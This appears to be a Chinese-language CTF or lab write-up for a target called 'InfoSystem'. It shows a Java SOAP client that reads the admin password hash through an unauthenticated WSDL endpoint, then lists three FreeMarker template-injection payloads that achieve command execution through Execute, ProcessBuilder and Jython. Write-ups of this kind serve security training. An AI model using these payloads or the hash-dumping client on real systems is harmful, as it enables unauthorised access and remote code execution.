 # InfoSystem
首先是对登陆进行抓包，发现发送了两个数据包，一个是登陆前台，一个是登陆后台：

![image-20211124190636777](https://image-1302577725.cos.ap-beijing.myqcloud.com/uPic/image-20211124190636777.png)

![image-20211124190657633](https://image-1302577725.cos.ap-beijing.myqcloud.com/uPic/image-20211124190657633.png)

访问后台路由`/admin/externalLogin`，重定向到`/admin`，是后台的登陆界面：

![image-20211124190720345](https://image-1302577725.cos.ap-beijing.myqcloud.com/uPic/image-20211124190720345.png)



对这个路由进行扫描，发现可以未授权访问的wsdl：

![image-20211124190744942](https://image-1302577725.cos.ap-beijing.myqcloud.com/uPic/image-20211124190744942.png)

其中`loadUserByUsername`可以通过用户名读取密码的哈希值，编写一个soap客户端来尝试读取`admin`：

```java
public class Main {
    public static void main(String[] args) {
        JaxWsDynamicClientFactory factory = JaxWsDynamicClientFactory.newInstance();
        Client client = factory.createClient("http://infosystem:8081/admin/service/UserService?wsdl");
        try {
            Object[] objects = client.invoke("loadUserByUsername", "admin");
            Arrays.stream(objects).forEach(System.out::println);
            client.destroy();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

成功读取：

![image-20211101012301594](https://image-1302577725.cos.ap-beijing.myqcloud.com/uPic/image-20211101012301594.png)

用这个账号和密码登录后台：

![image-20211101012349859](https://image-1302577725.cos.ap-beijing.myqcloud.com/uPic/image-20211101012349859.png)

其中在新闻发布 & 新闻列表中存在`freemarker`的模板注入：

![image-20211101012427785](https://image-1302577725.cos.ap-beijing.myqcloud.com/uPic/image-20211101012427785.png)

![image-20211101012439444](https://image-1302577725.cos.ap-beijing.myqcloud.com/uPic/image-20211101012439444.png)


可用payload:
```
<#assign value="freemarker.template.utility.Execute"?new()>${value("open -a Calculator")}

<#assign value="freemarker.template.utility.ObjectConstructor"?new()>${value("java.lang.ProcessBuilder","calc.exe").start()}

<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("calc.exe")</@value>
```
